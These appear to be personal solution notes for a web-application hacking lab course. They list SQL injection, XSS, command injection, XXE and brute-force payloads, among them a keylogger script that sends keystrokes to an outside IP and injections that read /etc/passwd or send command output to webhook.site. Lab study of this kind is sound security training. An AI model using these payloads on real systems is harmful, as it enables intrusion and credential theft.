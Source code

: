 # Lab solutions

## Injection0x01

- basic SQLi

## Injection0x02

- login as jeremy:jeremy
- check the cookie used as a session token
- break it by adding a '
- notice the page doesn't show the welcome message now that there is a SQL error
- write a script to extract jessamy's password

## Injection0x03

- sushi shop
- product search
- UNION select to enum other tables
- find creds & login

### solutions:

`Tanjyoubi Sushi Rack' UNION SELECT username,password,null,null from injection0x03_users-- -`

## XSS 0x01

`<img src=x onerror=alert(1);>`

## XSS 0x02

`<img src=x onerror=alert(1);>`

`<script>function logKey(event){fetch("http://10.10.100.146:4444/e?c=" + event.key)} document.addEventListener('keydown', logKey);</script>`

## XSS 0x03

## Command Inj 0x01

`https://tcm-sec.com; whoami; asd`
`; cat /etc/passwd; asd`

## Command Inj 0x02

`https://tcm-sec.com/& whoami& asd`
`https://tcm-sec.com/ | sleep 10 | asd`

`https://webhook.site/<id>/?`whoami``

## Command Inj 0x03

`45123)^2))}';whoami;#`

## File upload 0x01

- Intercept
- Change contents
- Or turn off JS

## File upload 0x02

- Bypass the client-side again
- Intercept and change the content-type to image/png or image/jpeg

## File upload 0x03

- Bypass the client-side again
- Intercept and change the content-type again
- Use an extension that's not in the blocklist (.phtml)

## Authentication 0x01

- Brute force

## Authentication 0x02

- MFA code, switch username (code is OK for all users)
- Or, just brute the code

## Authentication 0x03

- Account lockout after 5 attempts, therefore brute the top 4 passwords against a username list

- common password list:

```
password
password123
letmein
manchesterunited
```

- common usernames list: `/usr/share/seclists/Usernames/Names/names.txt`

## XXE, IDOR, capstone

### XXE 0x01

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >]>
<creds><user>username</user><password>pass</password></creds>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

### IDOR

`fuzz the parameter`

- find an admin user (or all of the admin users)

### Capstone

SQLi to get into admin panel
File upload to get RCE

- XSS in the message alert
- XSS in account names probably? need to test

- brute force user accounts

- SQLi on adding rating

`http://localhost/capstone/coffee.php?coffee=3' or 1=1-- -`

`http://localhost/capstone/coffee.php?coffee=1%27%20union%20select%20null,username,password,null,null,null,null%20from%20users--%20-`

# To do list

- file upload capstone
- auth0x03 testing
